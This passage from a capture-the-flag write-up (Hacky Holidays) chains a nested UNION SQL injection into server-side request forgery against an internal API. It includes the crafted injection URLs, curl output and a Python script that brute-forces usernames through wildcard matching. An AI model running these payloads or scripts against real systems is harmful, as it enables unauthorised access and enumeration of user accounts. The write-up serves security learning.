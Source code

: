 The image paths in the database that I dumped earlier were simply filenames with no directory information. I knew from decoding the base64 in the `picture` links that the images live in the `uploads` directory, so any SSRF paths need to be constructed relative to that directory.

I wanted to try and call the API via the SSRF, so I assembled the following:

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=asdasd%27%20UNION%20SELECT%20%224%27%20UNION%20SELECT%201,2,\%22../api/hello\%22;/*%22,1,1;/*
```

Calling this URL gave us a `picture` endpoint URL which should result in an SSRF on the `api/hello` endpoint. I didn't expect this endpoint to actually exist - but I was hoping for an improvement on the `401` received by calling anything `api/*` directly over the internet. A `404` would be nice.

```
$ curl -s 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=asdasd%27%20UNION%20SELECT%20%224%27%20UNION%20SELECT%201,2,\%22../api/hello\%22;/*%22,1,1;/*' | grep picture
                        <img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL2hlbGxvIiwiYXV0aCI6ImEwZTY4MmQ2YjRiNWVjYTM2NDJlMTU5NmQ4OGE5MDk2In0=">

$ curl -s 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL2hlbGxvIiwiYXV0aCI6ImEwZTY4MmQ2YjRiNWVjYTM2NDJlMTU5NmQ4OGE5MDk2In0='

Expected HTTP status 200, Received: 404
```

This was interesting! The `picture` script complained that it wanted a `200` status, but got a `404` instead. This meant I was no longer experiencing `401` statuses!

I tried a few common endpoints and spotted a `200` response for the `api/user` endpoint. Sadly the raw response wasn't returned, as the `picture` script complained about a bad content type, probably because it was expecting an image and instead received some JSON describing a user!

I tried appending some query string parameters to see if it was possible to check for the existance of different users, and spotted that when `?username=blah` was appended, a `404` was returned! So it looked possible to brute force usernames. I tried this and was initially unsuccessful, until I spotted `?username=%25` didn't return a `404`! Wildcards were accepted, meaning I could brute force much quicker!

I knocked up a bit of Python to do the job for me:

```python
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup as BSHTML

start=''
alphabet='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-'

def guess(start):
    for letter in alphabet:
        attempt=start+letter
        url = f'''https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=asdasd%27%20UNION%20SELECT%20%224%27%20UNION%20SELECT%201,1,\%22../api/user?username={attempt}%25\%22;/*%22,1,1;/*'''
        r = requests.get(url)
        soup = BSHTML(r.text, "html.parser")
        images = soup.findAll('img')
        r = requests.get("https://hackyholidays.h1ctf.com" + images[1]["src"])
        if len(r.text) != 39:
            return attempt
    return start

updated=guess(start)
while updated != start:
    start = updated
    updated=guess(start)
```